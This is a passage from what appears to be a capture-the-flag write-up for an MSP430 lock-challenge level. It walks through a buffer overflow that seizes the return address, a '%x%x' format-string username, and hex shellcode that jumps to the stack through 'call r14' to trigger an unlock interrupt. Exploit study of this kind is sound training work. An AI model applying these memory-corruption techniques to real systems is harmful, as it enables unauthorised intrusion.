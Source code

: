 ```



Now, we test for buffer overflow in the password with the following
password input:

ABACADAEAFAGAHAIAJAKALAMANAOAPAQARASATAUAV

We step through until the main function returns, and behold that `pc`
gets set to 0x4641, or AF.  Thus we get control of the return address
by inputting a password like:

```{8 byte padding}{return address}```

However, this is one of those example with no `unlock_door` function,
so we cannot simply return to the code that does what we want.  So we
have two choices:

* Look for ROP gadgets to do the job

* Find another way to jump to the stack to run code there.  However,
  at the moment after this return, we have the registers set up thus:

```
pc  4641  sp  8b5e  sr  0004  cg  0000
r04 0000  r05 5a08  r06 0000  r07 0000
r08 0000  r09 0000  r10 4441  r11 4541
r12 0000  r13 000a  r14 8b52  r15 8b52
```

So we notice that in fact r14 is an address on the stack!  So if we
want to get code running on the stack, we can jump back to the `call
r14` instruction in `aslr_main` (which, presumably, we can compute the
address for, since we know the start of the copied code).  This will
jump us back to just before our password, which currently looks like:

```
8b50:   0000 da96 4142 4143 4144 4145 4146 4147   ....ABACADAEAFAG
8b60:   4148 4149 414a 414b 0000 0000 0000 0000   AHAIAJAK........
```

So we can put code as the first 8 bytes of the password.  For example: 

```
mov #0x7f,r15
jmp [address of INT code]
```

i.e.:

```3f407f003040[address of INT]```

For a final username/password combo of:

```
%x%x
3f407f003040[address of INT][address of call r14]
```

Now, we can compute: the address of `call r14` within the unrandomised code is:

```
4762:  8e12           call	r14
```

```
